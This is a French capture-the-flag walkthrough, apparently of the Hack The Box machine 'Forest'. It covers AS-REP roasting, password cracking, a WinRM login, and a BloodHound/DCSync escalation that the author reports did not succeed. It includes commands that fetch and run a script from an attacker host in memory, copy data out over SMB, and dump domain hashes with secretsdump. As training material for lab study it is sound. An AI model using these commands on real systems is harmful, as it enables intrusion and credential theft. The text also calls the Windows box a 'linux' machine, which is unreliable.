 ![Pic1](../img/forest1.PNG?raw=true) </br>

# Introduction

Forest est une machine linux dont l'adresse IP est 10.10.10.161.</br>
Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* 
</br>

# Enumération initiale
Nous commençons par l'énumération des services et ports de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.161
```
![Pic2](../img/forest2.PNG?raw=true) </br>
Plusieurs ports ouverts, on peut déjà tenter une énumération des dossiers partagés par SMB :
```bash
$ smbmap -H 10.10.10.161
```
![Pic3](../img/forest3.PNG?raw=true) </br>
Aucun partage dispo.</br>
On peut faire une énumération RPC avec rpcclient :
```bash
$ rpcclient -U "" -N 10.10.10.161
rpcclient > enumdomusers
```
![Pic4](../img/forest4.PNG?raw=true) </br>
![Pic5](../img/forest5.PNG?raw=true) </br>

# Obtenir un accès utilisateur
En ayant la liste des utilisateurs, nous pouvons tenter d'obtenir un ticket Kerberos pour chacun, cela fonctionnera que pour le compte
svc-alfresco :
```bash
$ GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/svc-alfresco
```
![Pic6](../img/forest6.PNG?raw=true) </br>

Nous pouvons le cracker avec john :
```bash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic7](../img/forest7.PNG?raw=true) </br>
Nous pouvons alors nous connecter via le port 5985 avec Evil-WinRM et lire le user.txt :
```bash
$ evil-winrm -i 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
> cat ../Desktop/user.txt
```
![Pic8](../img/forest8.PNG?raw=true) </br>

# Obtenir un accès administrateur
Nous allons utiliser l'outil Bloodhound, pour ce faire, il faut :
* Upload SharpHound sur la box et l'éxécuter.
* Envoyé le résultat de SharpHound vers l'attaquant.
* Charger le résultat dans Bloodhound.
* Analyser le résultat pour voir l'exploit.
* Exploitation.

## Upload SharpHound sur la box et l'éxécuter
Coté attaquant :
```bash
$ cp /opt/bloodhound/Collectors/SharpHound.ps1 ./
$ python3 -m http.server
```
Coté box :
```bash
> cd C:\Users\svc-alfresco\appdata\local\temp
> iex(new-object net.webclient).downloadstring("http://10.10.14.34:8000/SharpHound.ps1")
> dir
```
![Pic9](../img/forest9.PNG?raw=true) </br>
Nous pouvons voir le fichier 20201124130216_BloodHound.zip qui contient le résultat des données récoltées par SharpHound.

## Envoyé le résultat de SharpHound vers l'attaquant
Coté attaquant :
```bash
$ smbserver.py share . -smb2support -username df -password df
```
![Pic10](../img/forest11.PNG?raw=true) </br>
Coté box :
```bash
> net use \\10.10.14.34\share /u:df df
> copy 20201124130216_BloodHound.zip \\10.10.14.34\share\
> del 20201124130216_BloodHound.zip
> net use /d \\10.10.14.34\share
```
![Pic11](../img/forest10.PNG?raw=true) </br>

## Charger le résultat dans Bloodhound
On lance neo4j et bloodhound :
```bash
$ neo4j console
$ bloodhound
```
</br>
Maintenant nous importons les données dans bloodhound :</br>

![Pic12](../img/forest12.PNG?raw=true) </br>
Une fois finit, on va faire une recherche pour trouver le chemin le plus court vers l'administrateur du domaine :</br>

![Pic13](../img/forest13.PNG?raw=true) </br>
Nous avons alors un résultat graphique très sympa :</br>

![Pic14](../img/forest14.PNG?raw=true) </br>
Il faut savoir, que sur chaque arête se trouve un élément (Member of / contain / Genericall ..) et si on clique droit sur cet élément
et que l'on clique sur Help, Bloodhound nous donne un descriptif très complet. Dans notre cas, on a GenericAll et WriteDacl qui, dans l'help, ont une rubrique "Abuse Info" pour 
expliquer en détail comment exploiter l'élément.

## Analyser le résultat pour voir l'exploit
En visualisant le graphique, on peut voir qu'il faudra deux jumps pour accéder à l'Administrateur depuis 
svc-alfresco. Notre utilisateur étant déjà dans le groupe Privileged IT Account, qui lui même est dans le groupe Account Operators, qui ce dernier,
si on clique sur le nom de son arête "GenericAll" nous permet de voir que ce groupe a tous les pouvoirs sur Exchange Windows Permissions. Donc il nous faudra ajouter notre compte
dans le groupe, puis à partir de ce moment là, le groupe Exchange Windows Permissions a les permissions de modifier le DACL (Discretionary Access Control List), donc nous pourrons
nous donner le privilège DcSync dans le but de dump le hash de l'admin.</br>
En résumer :
* On se rajoute dans le groupe Exchange Windows Permissions (via commande powershell).
* On se donne le privilège DcSync (via commande powershell).
* On fait un dump du hash admin (via mimikatz ou secretdump.py).

## Exploitation
Alors pour cette partie, rien ne passe, même en utilisant les solutions des autres write-up, la version de powershell de la box est 1.</br>
J'ai tenté d'avoir le privilège DCSync par commande powershell et par aclpwn mais en powershell les commandes n'existent pas, et avec
aclpwn j'ai problème sur problème. Je reviendrai peut être un jour (non.) pour finir.
On peut bien rentrer dans le groupe Exchange Windows Permissions mais pas plus. La commande Add-domainObjectAcl n'existe pas sur powershell V1.
```bash
Evil-winRM > Add-ADGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco;
#Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
Si tout ce serai bien passé, on aurai juste eu à récolter les hash et à s'identifier avec (toujours avec evil-winrm) :
```bash
$ secretsdump.py svc-alfresco:s3rvice@10.10.10.161
$ evil-winrm 
```